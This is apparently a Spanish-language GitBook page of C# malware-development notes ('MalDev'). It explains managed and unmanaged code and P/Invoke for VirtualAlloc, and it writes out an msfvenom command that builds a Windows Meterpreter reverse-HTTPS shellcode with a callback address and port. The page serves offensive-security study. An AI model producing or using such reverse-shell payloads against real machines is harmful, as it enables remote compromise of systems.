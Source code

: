 ```yaml
---
description: Compilado de técnicas en C#
---
```


# MalDev

## Unmanaged Code

C# es un lenguaje de alto nivel y genera un bytecode en el momento de la compilación. Además, también proporciona características para ejecutar código inseguro como pointers, pero que también está en un alto nivel si se compila el código con C # Compiler (csc.exe). Este tipo de código en Windows se llama managed code, donde toda la gestión de memoria es manejada por el CLR(Common Language Runtime).

Además,  C# es un lenguaje muy flexible y permite llamar a la función definida en las DLL del código fuente que no está escrito en C#. Este tipo de código se conoce como unmanaged code. A diferencia del managed code, el desarrollador es responsable del manejo de los recursos.

Para utilizar el unmanaged code, deberemos importar librerias que nos permitan esto. Por lo que haremos uso de P/Invoke para este paso. Por ejemplo para la funcion VirtualAlloc que está escrita en C, la podemos importar de la siguiente forma (eligiendo una de las tres):

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

## Crear el shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.182.128 lport=443 -f csharp -o shellcode.cs 
```

<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

**Otros tipos de payloads en msfvenom:**

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
